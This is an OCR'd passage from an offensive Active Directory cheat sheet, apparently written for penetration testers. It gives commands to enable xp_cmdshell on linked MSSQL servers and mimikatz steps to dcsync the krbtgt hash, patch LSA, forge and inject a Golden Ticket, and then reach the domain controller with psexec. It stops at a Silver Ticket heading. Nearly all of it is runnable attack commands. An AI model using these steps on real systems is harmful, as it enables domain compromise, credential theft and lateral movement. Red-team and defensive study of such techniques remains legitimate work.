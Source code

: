     # With meterpreter module you can find linked databases and if you are admin on them
    # You can do a query and try to enable xp_cmpshell on that server
    select * from openquery("server",'select * from master..sysservers') EXECUTE AS USER = 'internal_user' ('sp_configure "xp_cmdshell",1;reconfigure;') AT "server"

Golden and Silver Tickets

Keys depend of ticket :
–> for a Golden, they are from the krbtgt account;
–> for a Silver, it comes from the “computer account” or “service account”.

    # Golden Ticket
    # Extract the hash of the krbtgt user
    lsadump::dcsync /domain:evil.corp /user:krbtgt
    lsadump::lsa /inject
    lsadump:::lsa /patch
    lsadump::trust /patch
    # creating the ticket
    # /rc4 or /krbtgt - the NTLM hash
    # /sid you will get this from krbtgt dump
    # /ticket parameter is optional but default is ticket.kirbi
    # /groups parameter is optional but default is 513,512,520,518,519
    # /id you can fake users and supply valid Administrator id
    kerberos::golden /user:morph3 /domain:evil.corp /sid:domains-sid /krbtgt:krbtgt-hash /ticket:ticket.kirbi /groups:501,502,513,512,520,518,519
    # After this , final ticket must be ready
    # Purge the currently cached kerberos ticket
    kerberos::purge
    kerberos::ptt golden.tck # you can also add /ptt at the kerberos::golden command
    # You can now verify that your ticket is in your cache
    powershell.exe -c "klist"
    # Verify that golden ticket is working
    dir \\DC\C$
    psexec.exe \\DC cmd.exe
    # Silver Ticket
    # Silver Ticket allows escalation of privileges on DC